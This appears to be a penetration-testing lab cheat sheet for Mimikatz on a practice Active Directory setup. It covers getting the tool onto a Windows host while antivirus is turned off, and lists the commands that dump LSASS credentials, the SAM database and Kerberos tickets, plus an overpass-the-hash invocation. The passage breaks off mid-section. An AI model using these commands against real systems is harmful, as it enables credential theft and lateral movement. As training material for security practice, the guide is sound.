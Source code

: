 
## **Overview**


- Tool used to view and steal credentials, generate kerberos tickets and leverage attacks
- Dump credentials stored in memory
- Few more attacks : Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket and Golden Ticket


## **Installation**

- Download the mimikatz file[.zip] from [here](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) on your kali machine
- Open the zipped file and navigate to the `/x64/` folder
- Transfer all files in this folder to your windows client machine, In our case it is **SPIDERMAN**
	- We can start up a python3 server on our Attacker machine with `python3 -m http.server 80`
	- Then navigate to your windows machine and open up a browser then type in our Attacking machine IP
	- Look for the files and download them (If you have any difficulty turn off your windows Antivirus)

![](https://i.imgur.com/HwRcWdk.png)

- Open up a Command Prompt with **Administrative privileges** on our SPIDERMAN VM and change directory to downloads (Where the Mimikatz file is located at)

![](https://i.imgur.com/QcWQSpt.png)


## **General Usage**

```powershell
# start mimikatz
c:\Users\peterparker\Downloads>mimikatz.exe

# start debug mode for full efficiency
mimikatz # privilege::debug

# List available options
mimikatz # sekurlsa::
```

### **Dump Hashes in LSASS**  

```powershell
mimikatz # sekurlsa::logonpasswords
```

### **Dump SAM**

1

mimikatz # lsadump::sam

### **Dump Cached TGTs**

```
mimikatz # sekurlsa::tickets
```


### **Overpass the Hash**

```powershell
mimikatz # sekurlsa::pth /user:username /ntlm:hash-here /domain:domain.tld

Create a TGT using a dumpled NTLM hash